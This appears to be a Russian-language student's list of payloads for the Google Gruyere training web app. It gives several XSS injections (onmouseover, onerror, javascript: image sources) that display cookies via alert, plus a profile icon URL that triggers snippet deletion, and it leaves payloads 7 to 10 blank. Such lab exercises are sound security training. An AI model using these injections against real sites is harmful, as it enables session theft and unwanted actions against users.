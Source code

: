# Payloads для gruyere

[100% не рикролл](https://clck.ru/3EMU7t)

## Payload 1

При создании нового сниппета можно написать в нём `<a onmouseover="alert(document.cookie) href='#'">text</a>`, который будет выводит куки при наведении, что позволяет лутать данные.

## Payload 2

При изменении цвета профиля можно задать цвету атрибуты onmouseover `black' onmouseover='alert(682)'`, который при наведении на него будет выводить alert. 

## Payload 3

При изменении профиля можно написать url в icon `https://google-gruyere.appspot.com/509870841862400053734264954502968465848/deletesnippet?index=0 `, который позволяет удалять сниппеты.

## Payload 4

В приват сниппет можно написать любой html тег например `<img src=x onerror=alert('XSS')>`, что выведит alert на странице.

## Payload 5

В изменении иконки профиля можно вставить html тег img `<img%20src="javascript:alert(document.cookie);"></img>` - alert вывелся.

## Payload 6

В изменении профиля можно указать ссылку на homepage, но туда еще можно картинку запихнуть умом `<img src=x onerror=alert(1)>` и за место вывода алерта(1) можно вывести куки файлы или что еще похуже.

## Payload 7



## Payload 8

## Payload 9

## Payload 10
...
